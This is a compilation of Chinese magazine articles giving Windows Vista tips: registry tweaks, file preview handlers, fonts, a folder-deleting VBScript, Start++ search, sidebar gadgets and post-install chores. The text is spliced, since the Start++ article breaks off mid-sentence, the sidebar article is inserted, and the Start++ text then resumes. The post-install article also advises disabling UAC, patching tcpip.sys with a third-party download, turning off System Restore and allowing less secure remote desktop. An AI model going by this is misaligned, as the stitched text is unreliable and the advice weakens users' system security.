重新打开本地组策略编辑器，依次定位至“用户配置→管理模板→传统管理模板（ADM）→自用策略”，如图2所示，现在我们就可以在右侧窗格中发现新增加的“禁用注册表编辑器”，双击即可打开属性窗口进行设置。如果选择“已启用”，那么当我们再次试图在运行框中输入“regedit.exe”运行时，所弹出的就是图3所示的提示信息了，假如选择“未配置”，那么注册表中的“HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System”也会被自动删除。

我们可以使用Microsoft与FullArmor Corp联合发布的ADMX Migrator将已定义的ADM文件转换为ADMX格式，下载页面为http://www.microsoft.com/downloads/details.aspx?FamilyId=0F1EEC3D-10C4-4B5F-9625-97C2F731090C&displaylang=en，转换之后将ADMX文件复制至“%windir%\policydefinitions\”路径下就可以了，感兴趣的朋友不妨一试。
当然，关于系统策略编辑器的编写与自定义，可以介绍的内容其实还有很多，感兴趣的朋友可以参考http://support.microsoft.com/default.aspx/kb/225087，或者是http://technet.microsoft.com/zh-cn/magazine/cc162496.aspx，具体的内容这里就不展开了。

补充：
在Windows Vista之前，可以在组策略中设置的注册表值是由ADM文件所控制，现在则采取了新的ADMX文件格式，该格式采用架构化的XML标准来描述注册表策略的设置，系统自带的策略文件可以在“%windir%\policydefinitions\”路径下找到。

## 明明白白Windows Vista的预览功能

◆文/王志军

相信很多朋友都已经用上了Windows Vista（以下简称Vista），Vista的资源管理器提供了一项非常实用的功能：文件预览。简单地说，只需要进入相应文件的路径，无须双击打开，鼠标单击选中之后，文件的内容就可以出现在右侧的预览窗格中，这样就可以在打开之前提前知道文件的内容，这当然是方便之极。

我们知道，Windows XP系统早已实现对图片文件的预览（显示缩略图），不过Vista的预览功能更为强大，不仅可以支持图片、音频、视频文件的预览，其他诸如字体、文本、网页乃至Office文档、PDF文件甚至E-mail都可以得到支持。

### 一、使用预览功能的前提

需要指出的是，默认设置下，Vista并没有启用文件预览功能。我们可以打开“计算机”或“资源管理器”窗口，单击工具栏上的“组织”按钮，从下拉菜单中依次选择“布局→预览窗格”，然后窗口右侧就会出现预览窗格。单击相应的文件，例如.txt、.html等格式的文件，如图1所示，此时都会在预览窗格中显示相应的内容，如果安装了Office 2007，那么还可以正常预览.docx/.doc、.xlsx/.xls、.pptx/.ppt格式的Office文档。拖拽预览窗格的大小，文字显示还会作出相应的转行显示，值得一提的是配合不同的文件类型，预览窗格也会提供配合该文件类型特点的功能。
如果你发现文件预览功能并未出现在所有文件夹中，那么请在打开预览窗格的前提下，依次选择“组织→文件夹和搜索选项”，打开“文件夹选项”对话框并切换到“查看”选项卡，在这里单击对话框顶部的“应用到文件夹”按钮即可生效。其实，如果我们先前启用预览功能时，打开的是“计算机”窗口，那么就不会有这个问题。

### 二、Vista预览文件的秘密

事实上，Vista的资源管理器之所以能够预览文件，这主要是相应的文件类型已经在系统中被正常注册，而且也注册了提供预览功能的预览器（Preview Handler），例如如果你需要预览PDF格式的文件，那么前提是系统中已经安装8.0以上版本的Adobe Reader或Adobe Acrobat，此时安装程序会自动在系统中注册PDF文件格式，同时也注册了相应的PDF预览器，现在我们已经可以在资源管理器中预览PDF格式的文件。

系统中所有已经注册的预览器，我们可以在注册表下进行查看，请在“开始搜索”框输入“regedit”打开注册表编辑器，依次定位至“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\PreviewHandlers”，如图2所示，右侧窗格中所列出的就是系统中已经注册的预览器。

## SOLUTIONS Vista技巧

| 名称 | 类型 | 数据 |
| --- | --- | --- |
| (默认) | REG_SZ | (数值未设置) |
| {00020827-0000-...} | REG_SZ | Microsoft Office Excel 预览器 |
| {031EE050-078C-...} | REG_SZ | Windows Media Player Rich Preview |
| {1531D583-8375-...} | REG_SZ | Windows Contact Preview Handler |
| {21E17C2F-AD2A-...} | REG_SZ | Microsoft Office Visio 预览器 |
| {53BEDF08-4E5B-...} | REG_SZ | Microsoft Windows MAPI Preview H... |
| {65235197-8748-...} | REG_SZ | Microsoft Office PowerPoint 预览器 |


### 三、为Vista添加更多的预览支持

如果某一文件格式没有被注册，系统中也没有注册相应的预览器，那么即使在资源管理器中启用了预览窗格，预览时仍然会显示为“没有预览”，例如.bat格式的批处理文件，虽然可以通过记事本手工查看，但如果能够直接预览，那么岂不更方便许多？

事实上，我们可以在记事本中手工打开.bat文件进行查看的，也就是说.bat文件同样属于文本格式，应该可以享受到.txt文件的相同待遇。我们可以按照下面的步骤使Vista可以正常预览.bat文件：

- 1. 查看预览器的数值名称
  打开注册表编辑器，依次进入“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\PreviewHandlers”，从右侧窗格中可以知道“Microsoft Windows TXT Preview Handler”是用来预览文本格式的文件，双击打开“编辑字符串”对话框，将“{1531d583-8375-4d3f-b5fb-d23bbd169f22}”这个数值名称复制到剪贴板中备用。

- 2. 向Vista报告预览格式
  依次进入“HKEY_CLASSES_ROOT\bat”，在右侧窗格中可以看到它的Program ID是“batfile”；再跳转到“HKEY_CLASSES_ROOT\batfile”，检查这里是否存在于一个名为“shellex”的子项，如果没有的话，请手工创建，在“shellex”子项下新建一个名为“{8895b1c6-b41f-4c1c-a562-0d564250836f}”的子项，这个子项的作用是向资源管理器报告该类型的文件可以预览。其实，无论你准备让Vista预览哪种格式的文件，这里创建的子项名称都必须是“{8895b1c6-b41f-4c1c-a562-0d564250836f}”，我们同样可以在“HKEY_CLASSES_ROOT\txtfile\Shellex”下查看到相同的内容。

- 3. 定义预览器
  单击选中“{8895b1c6-b41f-4c1c-a562-0d564250836f}”项，此时右侧窗格中会有一个“(默认)”的值，双击打开“编辑字符串”对话框，将其数值数据设置为“{1531d583-8375-4d3f-b5fb-d23bbd169f22}”，这自然是准备使用作为.bat格式文件的预览器。
  重新返回资源管理器窗口，选中刚才显示为“没有预览”的.bat文件，现在我们已经可以在右侧窗格中正常预览这个批处理文件，是不是很方便？如果你希望实现对.ini、.reg文件的预览，可以按照同样的步骤进行操作，这里就不一一细说了。


### 四、添加预览支持可以更简单

通过上面的介绍，想必你会发现，虽然可以通过编辑注册表，从而实现更多的预览支持，但显然是麻烦了一些。其实，我们可以利用一款名为PreviewConfig的第三方软件来解决这个问题，下载地址为http://www.winhelponline.com/utils/previewconfig.zip，解压缩后直接双击运行即可。

鼠标单击“File types”下面的文本框，激活文件格式列表框，从“File types”下面的列表框中找到希望实现预览的文件格式，或者直接在搜索框中手工输入带点的扩展名，例如.reg，接下来需要在右侧窗格中选择相应的预览器，这里提供了Plain-text(文本格式)、Media file (audio/video)、None、Others等选择，我们自然是选择“Plain-text”，这是因为可以在记事本中顺利打开注册表文件，最后单击“Apply”按钮进行确认，如图3所示，此时会在这里显示修改了注册表的哪些项目和键值。

完成上述工作之后，我们就可以在资源管理器中直接预览.reg格式的注册表文件，这比起修改注册表当然是简单多了。假如需要禁止预览某种格式的文件，步骤同样十分简单，仍然是首先在列表框中找到相关的格式，例如“wmv”，此时可以看到该格式已经被自动归入“Media file (audio/video)”的范畴，在“Preview Handler information:”下可以看到详细的预览设置，现在我们只需要将“Preview type”设置为“None”，最后单击“Apply”按钮即可生效，这样可以避免关闭预览窗格的麻烦事。



## 重新认识Vista的字体

◆文/王志军

相信很多朋友都已经用上了Windows Vista，今天我们要介绍的是Vista的字体。毕竟显示在屏幕上的文本和字符是我们每天都要面对的，难道还不应该深入了解这些内容吗？

### 1. Windows字体的分类

所谓字体，就是数字、符号和字符的集合，字体描述了特定的字样和其他特性，例如大小、间距和跨度。Windows提供了TrueType字体和OpenType字体，它们适用于各种计算机、打印机和程序。

- ① TrueType字体：可以调整至任意大小，并且所有大小的字体都是清晰可读，可以将它们发送给Windows所支持的任何打印机和其他输出设备。如果希望打印效果好并且在屏幕上易于阅读，那么应该考虑TrueType字体。

- ② OpenType字体：与TrueType字体有关，但通常包括更大的基本字符扩展，例如小型大写字母、老式数字及更复杂的形状，OpenType字体在任意大小下都清晰可读，并且可以发送到Windows支持的任何打印机或其他输入设备。如果需要大型字符集用于语言覆盖和精细的版式，那么可以考虑OpenType字体。

- ③ PostScript字体：线条平滑、细节突出，是一种高质量的字体，它们经常用于打印，尤其是经常用于书籍或杂志的专业质量打印。如果打印专业质量印刷出版物，例如有光泽的杂志，或需要进行商业打印，那么PostScript字体是一种很好的选择。

进入控制面板窗口，在这里选择“外观和个性化”，进入后单击“字体”打开图1所示的窗口，可以看到这里显示了所有已安装的各种字体，其中蓝色的“TT”图标表示TrueType字体，共104款；绿色的“O”表示OpenType字体，共有381款，我们所熟知的仿宋、黑体、华文楷体、微软雅黑等字体均属于此类别；红色的“A”表示光栅字体，共7款；还有一种蓝色的“TC”字体表示TrueType集字体，这是随Windows Vista和Office System 2007一起发布的，共有10款字体。

### 2. 指定网页字体

在浏览网页的时候，可能经常需要根据视觉感受进行字体调节，调节的方法是通过“Internet选项”进行，请切换到“常规”选项卡，单击“字体”按钮，然后选择准备使用的字体，指定后单击“确定”按钮即可。如果需要覆盖网站字体，请单击“辅助功能”按钮，在随后弹出的对话框中勾选“忽略网页上指定的字体样式”和“忽略网页上指定的字号”两个复选框，然后单击两次“确定”按钮即可生效。



### 3. 让字体更适合液晶显示器

通常情况下，每英寸的点数(DPI)越多，字体的显示效果就越好，如果将DPI设置得高于96，并且正在运行Windows Aero，那么屏幕上的文本和其他项目会在某些程序中显示模糊，这种情况在液晶显示器中可能更为明显。按照下面的方法进行设置，可以让字体的显示效果更加平滑：

- ① 调节DPI设置
  右击桌面进入“个性化”窗口，在左侧窗格中选择“调整字体大小(DPI)”，在“DPI缩放”对话框中单击“自定义DPI”，在这里勾选“使用Windows XP样式DPI缩放”复选框，然后单击“确定”按钮即可。

- ② 使用ClearType
  ClearType是一种显示计算机字体的技术，通过打开和关闭像素中的每种颜色提高分辨率，对像素中红、蓝和绿成分的严格控制，可以将液晶显示器的清晰度提高至300%，从而使字体清晰而又圆润地显示出来，使屏幕上的文本更细致，因此更易于长时间阅读，而不至于眼睛紧张和精神疲劳。为了提高文本的可读性效果，我们还应该对ClearType进行调整：
  仍旧进入“个性化”窗口，单击打开“窗口颜色和外观”对话框，请切换到传统风格的外观属性，这样才能获得更多的颜色选项。进入“外观设置”对话框后单击右下角的“效果”按钮，随之会打开“效果”对话框，在这里勾选“使用下列方式使屏幕字体的边缘平滑”复选框，然后选择列表中的“ClearType”，最后单击“确定”按钮即可。如果需要微软ClearType的效果，可以转到Microsoft版式网站，地址是http://go.microsoft.com/fwlink/?LinkId=62457，然后按照页面上的说明进行调整。

附：在CRT显示器上使用ClearType技术也可以适当提高清晰度，例如使锯齿形字体的边缘平滑，这称为“清除锯齿技术”。

### 4. 让微软雅黑字体进驻Windows XP

作为微软中文解决方案的一个重要核心，Vista已经使用“微软雅黑”来取代目前Windows XP下默认的“宋体”汉字，以支持高清显示的Clear Type功能，据称微软为此付出了高昂的代价，具体到每个字的造价成本竟然达到了100美元左右，完全可以说是一字千金，而我国各字典、词典收录的汉字总数接近2万，而这还不包括对少数民族文字的转换，可想而知其代价有多高。

那么，目前的XP用户能否提前体验Vista风格的微软雅黑字体呢？其实，这种原本在Vista系统下的默认字体也完全可以在XP系统下使用，这里介绍两个不同的方法：

- ① 安装Office 2007
  作为微软统领办公软件市场的重要武器，Office 2007被倾注了太多的心血，如果你已经安装了Office 2007，那么微软雅黑字体都会被自动安装到系统中，也就是说我们已经可以在相关的文字编辑工具中进行调用。

  如图2所示，在“字体”下拉列表框中已经出现了“微软雅黑”的身影，从“示例”框格中可以看出这种字体较以前的宋体更加清晰、更加明亮，有一种淡淡和优雅的风格。

- ② 安装官方工具
  日前，微软已经为Windows XP用户提供了微软雅黑字体的替换工具，官方下载地址为http://download.microsoft.com/download/d/6/e/d6e2ff26-5821-4f35-a18b-78c963b1535d/VistaFont_CHS.EXE，下载回来后直接运行。接下来，还需要右击桌面打开“显示属性”对话框，切换到“外观”选项卡，完成如下设置：

  字体设置：单击“高级”按钮打开“高级外观”对话框，如图3所示，将相关项目的字体设置为“微软雅黑”，例如菜单、调色板标题、工具提示、活动窗口标题栏、图标、消息框、已选定的项目等，注意每个项目的设置都需要单击“确定”按钮，最后再次单击“确定”按钮，等待数秒钟之后完成更改。

  

  显示效果设置：单击“效果”按钮，将“使用下列方式使屏幕字体的边缘平滑”下拉列表框中设置为“清晰”。

  

  完成上述设置之后，我们就可以看到令人称羡的微软雅黑字体效果，感兴趣的朋友不妨一试。

## 让Windows Vista自动删除指定目录

◆ 文/王志军

相信很多朋友都已经用上了Windows Vista，如果你的系统中经常会有一些需要定期清除的目录，那么每次手工清除似乎也太麻烦了些。其实，我们可以创建一个脚本文件，实现根据文件夹创建时间以自动删除的任务，具体步骤如下：

第1步：打开记事本，手工输入如下代码：

```
vb
Dim i, fso, flag, f, ff, sf, Pfad, Alter, MinAlter,fNameArray()
If WScript.arguments.Count =0 Then
Pfad = InputBox("请输入需要删除的目标文件夹路径")
MinAlter = InputBox("请输入希望删除的文件夹存在的时间，注意以天为单位：")
Else
Pfad = WScript.Arguments(0)
MinAlter = WScript.Arguments(1)
End If
flag=0
If instr(Pfad,"Windows") then flag=1
If instr(Pfad,"Programme") then flag=1
If (Pfad="C:") or (Pfad="C:") then flag=1
Set fso = CreateObject("Scripting.FileSystemObject")
Set f = fso.GetFolder(Pfad)
Set sf = f.SubFolders
For Each ff in sf
Alter = DateDiff("d",ff.DateCreated,Now)
If Alter-MinAlter > 0 then
ReDim preserve fNameArray(i)
fNameArray(i) = ff.Name
i = i + 1
end if
Next
If flag=0 then
For Each ff in fNameArray
FSO.DeleteFolder(Pfad & "\" & ff)
Next
End If
```

上述代码中，已经设置为禁止使用"Windows"或"Programme"这样的路径，这主要是考虑到系统文件的安全，如果你有更多的要求，可以按照同样的格式继续添加。

第2步：打开“另存为”对话框，将“保存类型”设置为“所有文件”，手工输入文件名和扩展名，例如test.vbs。

第3步：双击运行test.vbs，这里可能会要求提供管理员密码，请按照提示进行操作，然后会弹出对话框，在这里输入需要删除的目标文件夹的绝对路径，接下来会要求输入希望删除的文件夹存在的时间，请注意这里是以天为单位，确认后即可删除指定路径下创建时间超过指定天数的文件夹，请注意不是修改时间，而是文件夹的初始创建时间。

或者，你也可以直接在运行对话框中输入“test.vbs h:\temp 10”这样的命令，执行后将直接删除“h:\temp”路径下创建时间超过“10”天的目录，感兴趣的朋友不妨一试，上述方法在Windows XP下同样可以使用。不过，需要提醒的是，使用test.vbs这个脚本文件删除目录时，将不会弹出确认提示，而且删除后也不会转移到回收站，建议在运行之前先做好备份工作和测试。

## Vista上网新体验

### ——将Google请进开始菜单

◆文/TMG wyj

### 一、认识“开始搜索”栏

点击桌面左下角的开始按钮，或者按键盘上的Windows键，就可以打开开始菜单。这个菜单底部的那个空白框，就是本次的主角——“开始搜索”框（见图1）。



在这个搜索框里键入本地文档、图片或音乐的名称，就可以搜索到你想要的文件。而在这个搜索框里键入“regedit”后，就可以打开Vista系统的注册表编辑器，进而查看和更改系统注册表的设置。但是，你可能想不到，在搜索框里还可能直接搜索网页，看到这句话之后你肯定会怀疑：“我平时直接用搜索框没有搜索到网页呀？难道是我不会用？”非也，你首先得安装一个软件Start++。

### 二、认识Start++

Start++软件下载地址：http://down1.tech.sina.com.cn/download/down_contents/1196524800/37415.shtml。它是Brandon Paddock公司开发的一款软件。

下载完成后，双击所下载的start++安装软件“Start++_0.8_Setup.msi”，安装完成后系统在运行“start++”时会发现新的更新，把更新软件“Start++ 0.8.1 Setup.msi”也安装完成后，Vista系统的“开始搜索”栏就直接具备了搜索网页的功能。

### 三、使用Start++

#### 1. 搜索网页

我们使用Start++的目的首先就是为它搜索网页的功能而来。Start++里能支持几种搜索引擎，要在“开始搜索”框里使用某种搜索引擎，一定要先键入这种搜索引擎的缩略字。例如：Google的缩略字是g，雅虎的缩略字是y，Live Search的缩略字是l。键入所需搜索引擎的缩略字后，空格，再键入所需搜索的内容。下面以Google搜索为例。

点击开始菜单。在“开始搜索”框内键入“g 神舟七号”，可以马上看到搜索结果（见图2）。



这里的搜索类别共有四大类，用户可以根据自己的需要选择网页Web、新闻News、博客Blog、图片Image的搜索结果。

这里最多能显示八条搜索结果，并且没有提供“下一页”按钮供翻阅。所以，想要查看更多的搜索结果只能点击左下方的“更多结果”，在随后展开的Google搜索页面上就能看到所有结果了。

搜索引擎的缩略字不分大小写。但是，使用雅虎和Live Search搜索引擎不能像使用Google那样直接看到搜索结果，要按回车键Enter打开搜索页才行。

很多人习惯使用的百度搜索引擎目前还不被这款软件支持。但是如果你的网页收藏夹里或者是历史记录里有百度，使用搜索框也是可以直接打开百度引擎的。具体如下，在“开始搜索”框内键入“baidu”，就会出现网页列表，用上下键可以选择网页，按回车键打开。

#### 2. 用维基百科搜索词条

Start++还能支持维基百科，相对前面所介绍的使用谷歌、雅虎等的搜索，个人以为支持维基百科的这个功能更实在。因为使用谷歌或者雅虎搜索后能看到的只是搜索结果的信息摘要，但是使用维基百科搜索的话，能看到关于这个词条的所有解释。

维基百科的缩略字为w，在“开始搜索”框内键入w，空格后输入“vista”，就能看见关于Windows Vista系统的词条（见图3）。

查看所搜索到的词条不需要打开维基百科的网页。但可惜的是，这里的维基百科支持的是英文版。在查询“墨子”这个词条时，出现的是英文解释，解释中出现的中文字符显示为## 用好Windows Vista的侧边栏

◆文/小健

微软已经确认2008年6月30日停止对Windows XP OEM版本销售，这意味着Windows XP也将慢慢地淡出历史舞台。在Windows Vista中有很多的全新特色功能，给我们带来了很好的体验。而其中从长角牛Longhorn时代（Vista代号的前身），侧边栏就开始闯入我们的听觉、视野。它相当于一个桌面“公示栏”，使我们在专注一项工作时顺便看看其他的信息，比如股票行情、备忘录、新闻等。这些都是以侧边栏Widget（小工具）的形式出现。那怎样使用侧边栏，如何让边栏列有个性？如何让它在家庭管理和学习方面为我们更好地服务？

### 一、无须自开页面 新闻自动上门

每天我们都希望了解到更多的信息，为此我们不得不登录很多的网站。不过，现在有了Windows Vista侧边栏，我们完全可以打造出一个新闻集中营，看遍天下新闻，随时查看到最新新闻。

- 1. 查看新闻

打开Internet Explorer（以下简称IE），然后浏览相应的网页，如果当前页面上有RSS源，则会出现“订阅该源”链接（如图1）。之后选择相应的源文件夹即可订阅。之后返回到桌面，即可看到我们关心的新闻。



小知识：RSS

RSS是一种XML文件格式，被用于信息的自动发送和处理。RSS是为分发不同因特网关口的新闻标题（后称之为丰富的站点摘要，即RSS）而发明的。一个RSS文件包括不超过10-15最新新闻的标题，并有到全文的链接。

- 2. 导出列表

由于我们侧边栏的新闻来源于IE，所以我们可以在IE中按下Alt键，然后选择“文件”→“导入和导出”。单击“下一步”按钮。选择“导出源”，单击“下一步”。设置好导出文件名和存放位置，单击“下一步”按钮。单击“完成”完成导出，并将文件保存到安全的地方即可将新闻源导出。

- 3. 导入列表

同样，由于我们侧边栏的新闻来源于IE，所以我们可以在IE中按下Alt键，然后选择“文件”→“导入和导出”，单击“下一步”按钮。选择“导入源”，单击“下一步”。找到导入文件名（支持opml文件导入），单击“下一步”按钮。设置导入源的根目录，单击“下一步”按钮即可。

我们还可以单击源窗口右侧的“选项”按钮，在打开窗口中选择显示指定的源，也可以设置相应的显示数量。

乱码。想要查询中文词条解释的人恐怕还是得打开维基百科的中文界面来搜索了。

- 3. 查看天气情况

现在在“开始搜索”栏内键入“weather”，就可以看见从包括今天在内五天的天气情况。默认的查询城市是加拿大，可以点击“Change the location”来改变查询城市。

- 4. 加快搜索速度

其实Start++最重要的一个功能就是加强“开始搜索”栏搜索文件的速度。现在键入“QQ”，马上就能查到相应的程序、收藏夹和历史、文件。相比没安装Start++软件时直接用“开始搜索”栏的速度快很多。

综述：Start++可以说是为Vista系统量身打造的开始菜单搜索软件，尝试后觉得使用Start++后的搜索速度几乎是未使用Start++的好几倍。随着软件的更新，或许Start++也能支持百度搜索引擎，维基百科里的中文不再乱码了呢。



### 二、让最爱图片总在眼前

在Windows Me/XP中有图片收藏屏保程序，它允许我们将My Pictures文件夹中的图片文件制作成屏幕保护程序，这样当我们休息时，自己的最爱图片不断显示在眼前，确是一件惬意之事。

不过，现在我们只要将图片保存到“示例图片”（C:\Users\Public\Pictures\Sample Pictures\）下即可显示在我们的窗口中。

我们还可以单击该项目右侧的“选项”按钮，在打开窗口中选择显示文件夹、显示频率和图片切换效果，是否随机显示等选项，这样设置后可以做到随心所欲，效果会更好。

### 三、商务人士首选 解决时差计算难题

在侧边栏默认有一个时钟，很多人认为与任务栏下的数字时间显示区重复，事实上并非如此。我们只要单击该项目右侧的“选项”按钮，在打开窗口中选择相应的时钟类型，甚至可以设置不同的时区。这样如果我们经常出差，将不用再为解决时差计算问题而头疼。同时，在任务栏下的数字时间显示区显示的则是国内的时间，这样我们就可以对当前的时区和祖国的时区的时间做到一目了然。

### 四、无限扩展功能 实用侧边栏工具做选

侧边栏是开放的，这也使得有更多优秀的开发人员为其开发更多更优秀的产品，有很多非常实用。

- 1. Windows Vista-中国日历

在日常生活中，我们会经常与农历打交道，比如农历节日、亲友过农历生日。可惜在Windows里，查询某天对应的农历或是公历是哪一天，往往得求助于万年历相关软件。安装软件我们总觉得麻烦，现在大家只要通过中国日历工具栏即可解决。

大家可以从http://wh.mydown.com/soft/200702/ChineseCalendarCN.Gadget处下载文件，之后双击之，再在打开的窗口中选择“安装”（如图2）。安装后，我们再返回到桌面，可以看到相应窗口，它可以在Vista桌面上显示丰富内容的日历，包含了节日、农历、节气、干支等信息，用鼠标单击日历还可以浏览到完整的月历。



- 2. 出行指南—盛名时刻表

火车仍是非常重要和经济的出行方式之一，但是每到节假日，我们总要为了获取春运期间供应紧张的火车票的信息而奔波。现在只要安装盛名时刻表，就可以在Windows侧边栏中掌握车次、票价等相关信息。这个列车时刻表小插件支持始发、终点到站和车次两种查询方式，用户只要输入相应的信息就可以即刻获取查询结果。在查询结果界面中，我们可以得到较为详细的信息，包括了车次、列车等级、时刻、里程和各种座位、卧铺的票价等信息。相信一定会为我们带来很大的便利。

- 3. 学习利器——有道海量词典

有道是网易推出的搜索引擎，包括了一个非常有趣也很有用的海量词典。现在，这个海量词典被搬到Windows边栏中，只要在桌面上就可以查询到各种词汇了。有道海量词典的特色在于除了基本的英汉、汉英词典，有道海量一个特别的功能叫网络互译，可以查询海量的专有词汇，包括地名、电影名称、明星姓名和技术术语等。这个插件界面很简单，呈现的仅仅是一个搜索输入框，你要做的只是输入要查询的词汇，词典会立马返回结果。如输入了一个英文单词，海量词典不仅会返回中文解释，还包括新酷的网络释义。同时，点击查询结果界面中的“完整结果”还可以获取更多的内容。

- 4. 理财有道—股票信息即时获取

随着社会经济的发展，人民收入的普遍提高，家庭理财也越来越受到更多人的关注，合理的家庭理财是现代社会人的必备素质之一。所谓“你不理财，财不理你！”，伴随着电脑的普及，随着网络技术的发展，足不出户就可以投资理财。无论是在单位，还是在家里，我们都可以炒股、买基金。信息时代，赢在不断充电！

我们只要单击侧边栏的“+”按钮，之后在打开窗口中即可选择相应的工具，如股票，双击后即可将其添加到侧边栏。

> 温馨提示
同时，我们还可以在窗口中输入相应的关键字来搜索相应工具栏，之后即可进行安装。

- 5. 无限扩展 网络搜索

同时，我们还可以在窗口中单击“联机获取更多小工具”链接（也可以直接打开http://vista.gallery.microsoft.com/vista/SideBar.aspx?mkt=zh-cn）从网上搜索相应的工具栏，之后即可进行下载、安装（如图3）。



事实上，随着计算机软件业的不断发展，功能强大的应用软件和操作系统在日渐增多，由于其操作项目总数也变得越来越多，侧边栏的加入让软件和操作系统的界面变得更为友好和人性化，大大方便了大家的使用。巧妙地用好这些工具，可以为我们的生活和工作增添更多的光彩。

## 为了安全和便利 安装完Vista后必做的几件大事

文/江北书生

### 一、启用Administrator

默认情况下，Windows Vista安装后，Administrator并没有被激活，而这个管理员才是正宗的，很多时候我们需要使用它，因此必须激活之。

单击“开始”，再右击“计算机”，选择“管理”，之后再选择“计算机管理（本地）”→“系统工具”→“本地用户和组”→“用户”。右击Administrator，选择“属性”，在打开窗口中取消“账户已停用”复选框（如图1）。



之后，再右击Administrator，选择“设置密码”，再在打开窗口中设置好密码。重新启动电脑，可以看到Administrator账户，用它登录系统，安装驱动和软件就再也不会跳出那个UAC窗口了。

### 二、应用最新补丁

补丁对于Windows系统的重要性相信大家已经相当了解，笔者在此不再赘述。但是安装Windows后，最多只是集成了一些过期补丁，并不能做到与时俱进。因此，在安装完系统后的第一件大事就是要部署最新补丁。传统的Windows补丁部署会占用太多的资源，而且有时还没有办法正确地打上补丁。不过，我们可以使用奇虎360来快速打上补丁。

打开奇虎360安全卫士，单击“常用”→“修复系统漏洞”，单击“立即检测”（如图2），之后会在打开窗口中显示出补丁，直接选中，再单击下方的“修复选中漏洞”按钮即可。

### 三、破解并发数限制 为迅雷和网络电影加速

现在互联网“去中心化”的趋势愈发明显，而在这个过程中，P2P十分盛行。但可惜的是，自从冲击波和震荡波病毒后，微软在发布的Windows XP SP2和Windows Vista对于TCP/IP最大连接数作了限制，这样做的本意是为了防止一些蠕虫病毒的传播。但是，这样一来对于P2P的传输不利，也不利于我们的下载加速和网络电视。

- Windows Vista

启动迅雷5，选择“工具”→“系统优化工具”命令，然后在打开的窗口中进行修改，重新启动后可生效。

- Windows Vista SP1

Windows Vista SP1的tcpip.sys比较特殊，因此必须使用一个工具。先从http://download.softpedia.com/dl/029858726e0e97438cd4de4ecfd32ccf/469cab1c/100072536/software/tweak/vistapatch.zip处下载到vistapatch.zip。然后将其中的文件解压到一个临时文件夹下，再根据自己平台的情况，双击Patch32.bat（32位的Vista平台）或Patch64.bat（64位Vista平台），然后一路按Y键确认。完成后，会弹出窗口，提示我们重新启动Windows Vista。利用此工具可以关闭掉用户账户控制，并可以破解TCP/IP半开连接数，其最高值为70000，足够我们下载使用了。

经过上述操作后，不仅迅雷可以调整下载，PPLive、PPStream等网络电视工具也可以大大提升速度。

### 四、关闭无用服务

Windows Vista中的服务有很多是没有用的，但却占据着大量的系统资源。我们完全可以将其关闭：右击“计算机”，选择“管理”，然后单击“服务和应用程序”下的“服务”项，双击其中的服务，在“常规”选项卡上单击“启动类型”下拉列表框，选择“手动”或者“禁用”都可以关闭该服务。推荐关闭一些不必要的服务。



### 五、关闭系统保护

系统保护允许我们将系统恢复到某一时间状态，从而可以避免我们重新安装操作系统。不过，此功能会占用太多的空间和系统资源，严重影响使用。而且，有的人在执行系统保护后，发现除C盘外，其它的D盘、E盘都恢复到先前的状态了，结果里面保存的文件都没有了，造成了严重的损失！

因此，我们可以右击“计算机”，选择“属性”，再在打开窗口中单击左侧“高级系统设置”，在打开窗口中单击“系统保护”标签，然后则清除磁盘旁边的复选框，然后单击“确定”（如图3）。



如果大家的电脑性能还不错，可以只启用C盘的系统保护。如果系统出现问题，可以用Windows Vista光盘引导机器。再过一会儿，会出现一个界面。此时选择“修复计算机”，再在打开窗口中选择“系统还原”（微软在修复时的叫法与Windows XP中的一样），之后再选择相应的还原点即可。

### 六、设置远程控制与XP的兼容性

现在远程控制非常流行，因为这样不仅可以省下车马劳累之苦，还可以省下很多时间。有了它，我们不仅可以用远程控制来修复故障、演示文档，还可以用它来获取数据、启动服务、修复漏洞等操作，可以给我们带来很多的便利。不过，默认情况下，Windows XP无法远程访问Windows Vista，而需要我们进行设置。

右击“计算机”，选择“属性”，再在打开窗口中单击左侧“高级系统设置”，在打开窗口中单击“远程”标签，然后选择“允许运行任意版本远程桌面的计算机连接（较不安全）”单选项，单击“确定”按钮。

如果我们的机器并不需要远程控制，则可以勾选“不允许连接到这台计算机”，这样电脑会安全一些。

### 七、打开打印机服务 顺利安装网络打印机

很多人反映安装完Windows Vista后，安装打印机（尤其是网络打印机）时会出现问题。这时，我们可以运行services.msc，将Print Spooler改成自动运行并启动，就可以安装本地打印机了。不过，如果要安装网络打印机，还需要在运行中输入gpedit.msc命令，打开组策略编辑，在右窗格中依次打开“用户配置”-“管理模板”-“控制面板”-“打印机”，双击“指向和打印限制”，按图4所示设置后再安装网络打印机即可。



### 八、更新硬件最新驱动

驱动相当于在操作系统中建立的一个平台，硬件只有在这个平台上才能正常工作。反过来说，驱动程序相当于硬件的“接口”，操作系统只有通过这个接口，才能控制硬件设备的工作。如果操作系统中不安装驱动程序，则硬件会无法工作。不过，我们一般要使用最新的驱动。

先用随机光盘安装驱动，但这不能保证其是最新的驱动。我们可以下载并安装驱动精灵2008，单击“驱动更新”，然后设置相应的更新方式即可自动更新，同时我们还可以设置先保存旧驱动。

如果你的笔记本没有光驱，造成无法安装驱动，可以这样来操作：1.将前面安装系统时的IDE转USB转接的光驱接到机器上，同样可以认出来，然后安装驱动程序；2.将驱动程序光盘放到台式机上，然后将其中的所有文件拷贝到U盘上，然后把U盘插到笔记本电脑上。

### 九、安装杀软和反黑软件

不用多说了，必须安装，不能裸奔，否则机器时间不长就会中招！

### 十、安装Vista优化大师 实现完美优化

Vista优化大师完全免费，功能强大、操作简单，安全优化设置都能轻松实现，还有世界独家的Vista瘦身大师功能，推荐大家使用（如图5）。



## 让Vista的Windows日历“中国化”

◆文/飞云

在Windows Vista操作系统中，有一个很不错的“Windows日历”，用它可以帮我们来安排一些日常的工作和私人事情，也可以把别人的日程安排共享给自己。不过在使用的过程中有些遗憾，就是在这个日历中不显示我们中国的农历和节日，怎么办呢？其实我们可以来自己添加，方法很简单。

首先我们打开“Windows日历”，在弹出的“Windows日历”窗口中点击菜单“共享→订阅”，在弹出的菜单中把订阅地址“http://www.google.com/calendar/ical/lunar__zh_cn%40holiday.calendar.google.com/public/basic.ics”输入在里面，接着再点击“下一步”按钮，在显示的窗口设置一下更新的时间间隔和名称，按默认的设置就可以了（如图1）。





